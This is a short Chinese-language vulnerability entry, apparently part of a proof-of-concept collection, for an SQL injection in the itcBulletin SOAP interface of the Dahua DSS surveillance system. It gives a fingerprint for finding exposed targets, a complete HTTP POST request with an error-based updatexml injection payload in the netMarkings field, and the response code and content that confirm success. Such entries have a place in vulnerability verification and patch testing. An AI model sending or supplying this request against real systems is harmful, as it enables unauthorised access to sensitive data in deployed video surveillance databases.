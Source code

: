 ﻿# 大华 DSS itcBulletin SQL 注入漏洞

> 更新时间：2023-12-25

> 漏洞编号：

> 漏洞说明：大华DSS数字监控系统itcBulletin接口存在SQL注入漏洞，攻击者可以利用该漏洞获取数据库敏感信息。

> 漏洞特征：app="dahua-DSS"

> 验证脚本：HTTP

```

POST /portal/services/itcBulletin?wsdl HTTP/1.1
Connection: close
Accept-Encoding: gzip

<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <ns1:deleteBulletin xmlns:ns1='http://itcbulletinservice.webservice.dssc.dahua.com'>
      <netMarkings>
        (updatexml(1,concat(0x7e,md5(102103122),0x7e),1))) and (1=1
      </netMarkings>
    </ns1:deleteBulletin>
  </s11:Body>
</s11:Envelope>
```

> 响应代码特征：500

> 响应内容特征：6cfe798ba8e5b85feb50164c59f4bec

> 上传文件定位：


> 验证文件来源：大华 DSS itcBulletin SQL 注入漏洞.poc
